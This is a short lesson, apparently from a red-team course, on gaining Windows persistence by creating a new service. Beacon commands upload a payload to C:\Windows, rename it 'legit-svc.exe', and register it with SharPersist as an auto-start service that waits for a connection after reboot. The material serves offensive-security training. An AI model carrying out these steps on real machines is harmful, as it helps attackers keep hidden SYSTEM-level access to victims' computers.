As we saw in in the previous chapter, there are many Windows services that run as SYSTEM.  Our various means of exploiting services for privilege escalation also act as persistence, but at the cost of breaking the legitimate service.  Instead, we can create our own service which won't impact on existing services.
```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\legit-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: legit-svc

[+] SUCCESS: Service persistence added
```
  

This will create a new service in a STOPPED state, but with the START_TYPE set to AUTO_START.  This means the service won't run until the machine is rebooted.  When the machine starts, so will the service, and it will be waiting for a connection.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/2fa/5f2/541/service.png)